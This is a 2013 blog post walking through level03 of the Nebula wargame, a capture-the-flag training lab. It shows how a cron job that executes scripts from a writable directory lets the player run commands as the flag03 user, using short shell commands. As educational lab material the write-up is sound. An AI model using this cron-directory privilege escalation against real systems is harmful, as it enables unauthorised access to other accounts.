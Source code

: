 +++
author = "pwntester"
categories = ["nebula03"]
date = 2013-11-20T18:36:00Z
description = ""
draft = false
slug = "nebula-level03-write-up"
tags = ["nebula03"]
title = "Nebula level03 write-up"

+++

In [Level03](http://exploit-exercises.com/nebula/level03) we are said that the program on /flag03 is run by cron every X minutes. If we have a look at the code we can see that it will execute the files in the writable.d directory and then remove them:

```lang-bash line-numbers 
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ok, so whatever we put in **writable.d** will be execute by someone else ... but who? Lets find out adding this simple script:

```lang-bash line-numbers 
level03@nebula:/home/flag03/writable.d$ echo "id > /tmp/id" > getid
```

After waiting a cuple of minutes we can see that **flag03** runs the cron, how convinient!
```lang-bash line-numbers 
level03@nebula:/tmp$ cat id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
```

Now, let make **flag03** get the flag for us:
```lang-bash line-numbers 
level03@nebula:/home/flag03/writable.d$ echo "getflag > /tmp/flag" > myGetFlag
```

Wait for it, wait for it ... and:
```lang-bash line-numbers 
level03@nebula:/tmp$ cat flag
You have successfully executed getflag on a target account
```

